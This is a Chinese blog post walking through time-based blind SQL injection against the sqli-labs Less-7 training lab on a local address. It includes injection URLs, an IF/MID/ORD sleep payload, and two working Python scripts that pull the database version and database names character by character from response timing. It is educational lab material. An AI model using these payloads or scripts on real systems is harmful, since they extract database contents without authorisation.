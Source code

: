 ```yaml
---
id: 613
layout: post
title: 'sqli lab 3 - 基于时间的盲注'
date: 2015-12-09 20:17:00
author: virusdefender
tags: 安全
---
```


基于时间的盲注，`http://172.16.61.136/sqli-labs/Less-7/?id=1`发现怎么写都不会爆出实际的错误了，返回值是下面两个之一

 - You are in.... 
 - You have an error in your SQL syntax

经过测试，发现`http://172.16.61.136/sqli-labs/Less-7/?id=1'`, id 后面添加单引号的时候会报错，双引号没问题，说明 id 是被单引号括起来的，但是`http://172.16.61.136/sqli-labs/Less-7/?id=1' --+`，后面如果添加注释的话还是会报错的，说明不仅仅是被单引号括起来的，但是能加的应该只有括号了吧，之前也有这样的例子，后来发现添加两个括号就可以了。所以 sql 语句应该是类似 `select * from table where id=(('$id'))`。

sql 语句中有一个 sleep 函数，一般这种不会报错的注入就要使用 sleep 了，测试一下。`http://172.16.61.136/sqli-labs/Less-7/?id=1')) union select 1, 2, sleep(3) --+`是过了三秒才响应的，说明 sql 注入确实存在。

但是实际应用中，怎么利用 sleep 来获取数据呢，一般的思路就是用 sql 语句中的 if 和 mid，来逐位的判断数据。

其中，MySQL 的 if 的用法是这样的

```
IF(expr1,expr2,expr3)

If expr1 is TRUE (expr1 <> 0 and expr1 <> NULL) then IF() returns expr2; otherwise it returns expr3. IF() returns a numeric or string value, depending on the context in which it is used.
```

如果 expr1 是 TRUE，就执行 expr2，否则就执行 expr3。

然后我们就可以这样逐位的去判断结果了，比如

```sql
select * from security.users where id =1 and if(ord(mid(version(),1,1))=53, sleep(3), 1);
```

这种基于时间的一般请求比较多，适合用代码来处理，比如获取 version() 的例子。
```python
# coding=utf-8
import requests
import time

url = "http://172.16.61.144/sqli-labs/Less-7/?id=1')) and if(ord(mid(version(), {position}, 1))={ord}, sleep(0.3), 1) --+"

for position in range(1, 50):
    flag = False
    for i in range(32, 127):
        start_time = time.time()
        u = url.format(position=position, ord=i)
        requests.get(u)
        end_time = time.time()
        if end_time - start_time > 0.3:
            flag = True
            print chr(i),
            break
    if not flag:
        break
```

其中我 sleep 了 0.3秒，因为测试环境在我的电脑上，正常访问肯定不会超过300毫秒的，但是实际情况下，要适当的加长的，防止被网速误导。

稍微改下就可以获取全部数据库了
```python
# coding=utf-8
import requests
import time

url = "http://172.16.61.144/sqli-labs/Less-7/?id=1')) and if(ord(mid((select schema_name from information_schema.schemata limit 1 offset {offset}), {position}, 1))={ord}, sleep(0.3), 1) --+"

for offset in range(10):
    for position in range(1, 50):
        flag2 = False
        for i in range(32, 127):
            start_time = time.time()
            u = url.format(offset=offset, position=position, ord=i)
            requests.get(u)
            end_time = time.time()
            if end_time - start_time > 0.3:
                flag2 = True
                print chr(i),
                break
        if not flag2:
            break
    print
```
这段代码没加 flag 控制，数据库还多的话，自己加一下 range。

然后同理可以获取到数据库的表和表的字段和具体的内容。
